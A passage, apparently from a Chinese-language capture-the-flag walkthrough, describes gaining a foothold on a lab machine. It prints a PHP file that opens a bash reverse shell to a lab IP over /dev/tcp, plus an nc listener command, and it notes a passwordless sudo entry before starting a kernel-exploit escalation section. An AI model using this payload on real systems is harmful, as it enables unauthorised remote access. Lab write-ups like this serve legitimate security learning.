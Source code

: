 ```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.170.135/443 0>&1'"); ?>
```

在 kali 上输入 `nc -lvnp 443` 来打开监听, 然后上传主题文件, 再执行这个 `secret.php` 就可以得到一个**反弹 shell**。

简单收集一下 `www-data`这个账户的信息: 

![10.png](10.png)

看到可以不输入密码的情况下以 sudo 权限访问 `saket/enc` 这个文件。

### 解法1: 内核漏洞提权

#### 用户提权

继续收集信息, 查看一下系统版本:

![11.png](11.png)
